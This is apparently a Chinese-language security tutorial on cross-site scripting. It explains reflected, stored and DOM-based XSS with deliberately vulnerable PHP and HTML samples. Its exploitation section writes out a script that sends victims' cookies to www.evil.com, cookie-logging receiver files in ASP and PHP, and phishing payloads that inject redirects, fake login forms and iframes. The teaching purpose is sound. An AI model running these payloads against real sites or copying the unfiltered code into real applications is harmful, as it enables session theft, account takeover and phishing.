 # XSS 跨站脚本攻击

## XSS 简介

跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 Web 应用程序中的计算机安全漏洞，是由于 Web 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

### 反射型 XSS

反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

服务器端代码：

```php
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Feedback for end user 
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
} 
?>
```

可以看到，代码直接引用了 `name` 参数，并没有做任何的过滤和检查，存在明显的 XSS 漏洞。

### 持久型 XSS

持久型跨站脚本（Persistent Cross-Site Scripting）也等同于存储型跨站脚本（Stored Cross-Site Scripting）。

此类 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

服务器端代码：

```php
<?php
  if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    // Sanitize name input
    $name = mysql_real_escape_string( $name );
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
    //mysql_close(); }
?>
```

代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做 XSS 的过滤和检查，且存储在数据库中，明显存在存储型 XSS 漏洞。

### DOM XSS

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 XSS 攻击。

HTML 代码：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

将代码保存在 domXSS.html 中，浏览器访问：

```
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可出发 XSS 漏洞。

## XSS 利用方式

### Cookies 窃取

攻击者可以使用以下代码获取客户端的 Cookies 信息：

```html
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

攻击者在获取到 Cookies 之后，通过修改本机浏览器的 Cookies，即可登录受害者的账户。

### 会话劫持

由于使用 Cookies 存在一定的安全缺陷，因此，开发者开始使用一些更为安全的认证方式，如 Session。在 Session 机制中，客户端和服务端通过标识符来识别用户身份和维持会话，但这个标识符也有被其他人利用的可能。会话劫持的本质是在攻击中带上了 Cookies 并发送到了服务端。

如某 CMS 的留言系统存在一个存储型 XSS 漏洞，攻击者把 XSS 代码写进留言信息中，当管理员登录后台并查看是，便会触发 XSS 漏洞，由于 XSS 是在后台触发的，所以攻击的对象是管理员，通过注入 JavaScript 代码，攻击者便可以劫持管理员会话执行某些操作，从而达到提升权限的目的。

比如，攻击者想利用 XSS 添加一个管理员账号，只需要通过之前的代码审计或其他方式，截取到添加管理员账号时的 HTTP 请求信息，然后使用 XMLHTTP 对象在后台发送一个 HTTP 请求即可，由于请求带上了被攻击者的 Cookies，并一同发送到服务端，即可实现添加一个管理员账户的操作。

### 钓鱼

- 重定向钓鱼

  把当前页面重定向到一个钓鱼页面。

  ```
  http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
  ```

- HTML 注入式钓鱼

  使用 XSS 漏洞注入 HTML 或 JavaScript 代码到页面中。

  ```
  http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>
  ```

  该段代码会在正常页面中嵌入一个 Form 表单。

- iframe 钓鱼

  这种方式是通过 `<iframe>` 标签嵌入远程域的一个页面实施钓鱼。

  ```
  http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
  ```

- Flash 钓鱼

  将构造好的 Flash 文件传入服务器，在目标网站用`<object>`或`<embed>`标签引用即可。

- 高级钓鱼技术

  注入代码劫持 HTML 表单、使用 JavaScript 编写键盘记录器等。

### 网页挂马

一般都是通过篡改网页的方式来实现的，如在 XSS 中使用`<iframe>`标签。

### DOS 与 DDOS

注入恶意 JavaScript 代码，可能会引起一些拒绝服务攻击。

### XSS 蠕虫

通过精心构造的 XSS 代码，可以实现非法转账、篡改信息、删除文章、自我复制等诸多功能。